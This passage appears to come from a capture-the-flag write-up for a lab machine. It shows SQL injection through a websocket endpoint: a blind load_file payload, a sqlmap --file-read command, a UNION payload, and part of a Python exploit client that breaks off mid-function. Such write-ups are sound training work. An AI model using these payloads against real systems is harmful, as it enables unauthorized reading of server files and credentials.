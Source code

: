 ![](screenshots/employe-creds.png)

**These password hashes are not crackable**

Check if database user have any privileges
```bash
database management system users privileges:
[*] %crossfit_user% [1]:
    privilege: FILE
```

* From mysql docs "A user who has the **FILE privilege** can read any file on the server host that is either world-readable or readable by the MySQL server."

* sql payload for boolen based blind injection for checking if file exixt: **`1 AND !isnull(load_file(0x<filepath_in_hexadecimal>))`**

Check `/etc/passwd` file
```bash
❯ python websocket.py -p '1 AND 1 AND !isnull(load_file(0x2f6574632f706173737764))'
< {"message": "available", "params": "1 AND 1 AND !isnull(load_file(0x2f6574632f706173737764))", "token": "97c47b19d8c2fc7f2ea9cfe79078fb2279478e15c4fb2ede301b8ad4c3d08e46"}
> {"status":"200","message":"Good news! This membership plan is available.","token":"645e596d99d2d03b82588868b437831c89f13bda4c168b318ed59b6d5f00a7b6","debug":"[id: 1, name: 1-month]"}
```

Read file with sqlmap
```bash
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --file-read="/etc/passwd"
```

### UNION sql injection to Read file

* Found injection with payload: `3 UNION SELECT 1,2`

This is more faster than blind injection because values are reflacted in the response.

**Updated Websocket client python script**

```py
import argparse
import sys
import websockets
import asyncio
import json

url = "ws://gym.crossfit.htb/ws/"
parser = argparse.ArgumentParser()
parser.add_argument('-m', '--message', help='Send command')
parser.add_argument('-p', '--params', help='"params" parameter value')
parser.add_argument('-u', '--union', action='store_true', help='Enable UNION injection')
parser.add_argument('-f', '--file', action='store_true', help='Enable file reading')
args = parser.parse_args()


async def lets_talk():
    async with websockets.connect(url) as ws:
        msg = await ws.recv()
```
